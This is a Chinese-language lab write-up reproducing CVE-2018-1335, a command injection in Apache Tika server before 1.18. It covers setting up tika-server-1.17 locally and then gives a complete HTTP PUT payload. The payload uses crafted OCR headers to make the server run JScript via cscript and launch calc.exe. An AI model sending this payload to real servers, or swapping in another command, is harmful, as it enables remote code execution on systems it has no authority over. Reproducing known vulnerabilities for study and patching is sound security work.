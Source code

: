 # Apache Tika中的命令注入(CVE-2018-1335)

## 0x01 搭建漏洞环境

*影响版本*
Tika-server版本<1.18 

以tika-server-1.17来搭建环境
在官网下载:
`https://archive.apache.org/dist/tika/tika-server-1.17.jar`

下载后，启动命令为：
```
java -jar tika-server-1.17.jar
```
![](./img/1.jpg)

打开浏览器,输入地址`http://localhost:9998/`，看见以下网页，则环境搭建成功。

![](./img/2.jpg)

## 0x02 漏洞复现

PAYLOAD:
```
PUT /meta HTTP/1.1
Host: localhost:9998
Connection: close
User-Agent: python-requests/2.19.1
X-Tika-OCRTesseractPath: "cscript"
Content-type: image/jp2
Expect: 100-continue
X-Tika-OCRLanguage: //E:Jscript
Content-Length: 99

var oShell = WScript.CreateObject("WScript.Shell");
	var oExec = oShell.Exec('cmd /c calc.exe');

```

利用burp发包，成功。

![](./img/3.gif)

复现成功


## 参考链接

- https://github.com/RhinoSecurityLabs/CVEs/tree/master/CVE-2018-1335
- https://rhinosecuritylabs.com/application-security/exploiting-cve-2018-1335-apache-tika/